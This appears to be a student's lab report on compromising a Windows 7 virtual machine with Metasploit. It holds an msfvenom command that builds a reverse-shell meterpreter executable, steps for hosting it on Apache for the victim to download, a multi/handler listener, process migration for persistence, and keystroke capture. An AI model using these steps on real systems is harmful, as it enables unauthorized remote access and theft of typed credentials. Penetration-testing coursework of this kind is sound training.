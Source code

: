 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit
## Name: Yathin Reddy T
## Reg No: 212223100062
# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

## ifconfig
192.168.91.247

![ipconfig6(1)](https://github.com/user-attachments/assets/5f670a52-63d9-415c-ab0a-bfa942cd94d0)
Find the attackers ip address using ifconfig

## msfvenom

![msfvenom(1)new](https://github.com/user-attachments/assets/8dd59155-f5e6-473f-8840-292ee5b0e07b)

Create a malicious executable file fun.exe using msfvenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

##  copy the fun.exe into apache/var/www/html/
![systemctl(1)](https://github.com/user-attachments/assets/69eb6758-41e8-4294-b2cb-d9dcd2416175)

copy fun.exe start apache server sudosystemctl apache2 start check the status of apache2

## msfconsole

![msfconsolehelp](https://github.com/user-attachments/assets/23643dfe-ca81-488d-a833-c6450a55610f)

invoke msfconsole Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

## Multihander,setpayload,exploit

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Parrot machine: http://192.168.91.247/

![new1](https://github.com/user-attachments/assets/0bd712a9-76cb-41d6-aceb-1152a6c04d4f)

![catarul](https://github.com/user-attachments/assets/656b11b1-d958-45f9-a4e1-e863e6102036)

![VirtualBox_windows 7_21_04_2025_13_34_08(2)](https://github.com/user-attachments/assets/5d96f50e-0cfa-4127-ba3f-3dd81910f545)

![folderforfunexe](https://github.com/user-attachments/assets/83b175cf-c502-46bc-99a2-06d4854063f1)

![usemulti](https://github.com/user-attachments/assets/bc802e2b-836e-477f-8356-eceb82bb8eef)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![ps](https://github.com/user-attachments/assets/42b39d96-52d9-4e5c-bd7a-d23534ee8ee5)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![netstat](https://github.com/user-attachments/assets/8a6d9037-074c-4527-9c8c-65b5606abdcb)

## Post Exploitation

The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![keyscan_startanddump](https://github.com/user-attachments/assets/87f5f7b1-8f78-4bb2-ac9f-c88ffcde3f0b)

![output](https://github.com/user-attachments/assets/5cfcb9d5-80bc-4425-8477-f3d2ffc73965)

![keyscan_startanddump](https://github.com/user-attachments/assets/7beac93c-96ea-47f3-a842-e350d57bba12)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

